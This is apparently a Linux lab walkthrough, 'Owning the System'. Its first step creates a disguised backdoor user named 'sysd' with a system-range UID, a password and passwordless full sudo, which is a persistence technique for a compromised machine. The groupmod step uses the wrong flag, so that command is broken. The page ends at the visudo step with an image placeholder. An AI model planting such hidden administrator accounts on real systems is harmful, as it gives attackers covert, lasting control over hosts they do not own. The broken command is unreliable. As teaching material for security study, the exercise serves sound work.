 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
            • sudo useradd sysd

    2.	Give your secret user a password:
            • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
            • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
            • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
            • sudo visudo
    
![see photo](/images/picture1.png)